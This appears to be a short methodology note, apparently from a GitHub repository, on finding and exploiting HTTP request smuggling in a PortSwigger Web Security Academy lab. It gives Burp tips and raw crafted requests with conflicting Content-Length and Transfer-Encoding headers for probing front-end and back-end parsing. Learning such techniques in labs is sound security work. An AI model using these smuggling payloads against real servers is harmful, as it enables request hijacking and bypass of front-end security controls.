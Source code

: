 ### Things to keep in mind to successfully exploit http request smuggling attacks.
```
1. Make sure to use HTTP/1.1 before trying to exploit because HTTP/2 doesn't support that.
In the inspector tab in burp , change to HTTP/1.1 from request attributes

2. If you are trying to using CL.TE , make sure you include connection: keep-alive header,
cause the backend server will only include that smuggled part in next request over same connection and
 using connection: keep-alive header will keep connection over same network.
3. In transfer encoding, 0 should be followed by new line
   0\r\n
   \r\n
```
### Identify if the frontend is using TE
send the request with  invalid transfer encoding request and see if it respond with bad request. If the response is invalid or bad request then the frontend is rejecting the invalid TE request. So, it confirms TE in frontend
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

3
abc
x

```
response comes back as
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```
---
### Identifying if backend is using CE
send the below request and see the server timeout response from the server
```
POST / HTTP/1.1
Host: 0a9800ec040696b6826d248900930006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

x
```
![Screenshot from 2023-10-31 18-22-58](https://github.com/Sameer484/methodology/assets/110039044/0b867e3e-217f-48ef-b76f-96daea24ba74)

### use this picture to identify the type of frontend and backend

![Screenshot from 2023-10-31 18-18-35](https://github.com/Sameer484/methodology/assets/110039044/835c41e8-a5be-4975-a793-29abe1053668)
